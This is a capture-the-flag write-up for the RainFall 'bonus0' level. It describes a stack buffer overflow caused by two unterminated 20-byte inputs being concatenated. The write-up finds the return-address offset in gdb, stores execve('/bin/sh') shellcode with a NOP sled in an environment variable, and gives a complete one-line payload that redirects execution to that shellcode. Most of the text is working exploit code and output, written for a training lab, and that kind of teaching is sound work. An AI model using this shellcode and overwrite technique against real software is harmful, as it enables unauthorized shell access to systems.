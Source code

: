# Solution 

this program take two input from user concatenate them then print them

```sh
bonus0@RainFall:~$ ./bonus0 
 - 
hello
 - 
world
hello world
```

if the first input is at least 20 characters it wont be null terminated
and the second buffer will be read

```sh
bonus0@RainFall:~$ ./bonus0 
 - 
01234567890123456789
 - 
world
01234567890123456789world world
```

So if both of our input are 20 character long we can have
a 61 character long (buf1+buf2+space+buf2) in a 42 long buffer
and rewrite the return pointer to a shellcode

finding the offset

```sh
(gdb) r
Starting program: /home/user/bonus0/bonus0 
 - 
01234567890123456789
 - 
AAAABBBBCCCCDDDDEEEE
01234567890123456789AAAABBBBCCCCDDDDEEEE��� AAAABBBBCCCCDDDDEEEE���

Program received signal SIGSEGV, Segmentation fault.
0x44434343 in ?? ()
```

offset is 9

we put the shellcode in env variable

```sh
export SHELLCODE=$(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```

find address of nop sled

```sh
(gdb) x/200x $ebp
0xbffff7ef:	 "SHELLCODE=...
```

building payload:
-
buf1(20)
-
padding(9) + nop sled address(4) + padding(7).  (total 20)

final payload:

```sh
(python -c 'print "A" * 20'; python -c 'print "B" * 9 + "\xef\xf7\xff\xbf" + "C" * 7'; cat -) | ./bonus0
```
